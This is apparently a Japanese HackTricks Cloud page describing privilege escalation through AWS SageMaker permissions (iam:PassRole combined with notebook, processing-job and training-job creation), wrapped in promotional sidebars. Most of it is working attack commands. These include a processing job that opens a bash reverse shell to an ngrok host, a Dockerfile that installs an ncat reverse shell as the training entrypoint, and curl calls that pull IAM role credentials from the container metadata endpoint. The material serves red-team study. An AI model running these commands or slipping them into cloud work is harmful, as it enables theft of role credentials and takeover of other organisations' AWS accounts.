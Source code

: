 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦で**@hacktricks\_live**をフォローする
- **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>

### `iam:PassRole`、`sagemaker:CreateNotebookInstance`、`sagemaker:CreatePresignedNotebookInstanceUrl`

IAMロールにアクセスするためのノートブックを作成し始めます：
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
以下は、新しく作成されたノートブックインスタンスのARNを含む`NotebookInstanceArn`フィールドを含むべきです。その後、`create-presigned-notebook-instance-url` APIを使用して、準備ができたらノートブックインスタンスにアクセスするために使用できるURLを生成できます:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
ブラウザでURLに移動し、右上の\`Open JupyterLab\`をクリックし、次に「ランチャー」タブにスクロールダウンして、「その他」セクションの下にある「Terminal」ボタンをクリックします。

これでIAMロールのメタデータ資格情報にアクセスできます。

**潜在的な影響:** 指定されたsagemakerサービスロールへの権限昇格。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

すでにJupyter **ノートブックが実行中**である場合、`sagemaker:ListNotebookInstances`を使用してそれらをリストできます（または他の方法でそれらを発見できます）。**URLを生成し、アクセスし、前述のテクニックで示されているように資格情報を盗むことができます**。
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**潜在的影響:** sagemakerサービスロールへの特権昇格。

### `sagemaker:CreateProcessingJob,iam:PassRole`

これらの権限を持つ攻撃者は、**sagemakerがsagemakerロールをアタッチしたprocessingjobを実行**することができます。攻撃者は、**AWS管理のECSアカウントインスタンス**で実行されるコンテナの定義を指定し、**アタッチされたIAMロールの資格情報を盗む**ことができます。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在的影響:** 指定されたsagemakerサービスロールへの権限昇格。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、トレーニングジョブを作成し、それに**アタッチされたロール**を持つ**任意のコンテナを実行**することができます。したがって、攻撃者はそのロールの資格情報を盗むことができます。

{% hint style="warning" %}
このシナリオは前のものよりも悪用が難しいです。なぜなら、トレーニングジョブの構成で開始コマンドを指定できないため、Dockerイメージを生成してその中でrev shellまたは資格情報を直接攻撃者に送信する必要があるからです。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在的影響:** 指定されたsagemakerサービスロールへの特権昇格。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、**ハイパーパラメータチューニングジョブ**を作成し、それに**アタッチされたロール**で**任意のコンテナを実行**することができる（可能性があります）。
_時間の不足のためまだ悪用していませんが、以前の脆弱性に似ているようです。悪用の詳細を送信する際は、お気軽にPRを送ってください。_

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>**htARTE（HackTricks AWS Red Team Expert）**でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝**したい場合や**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
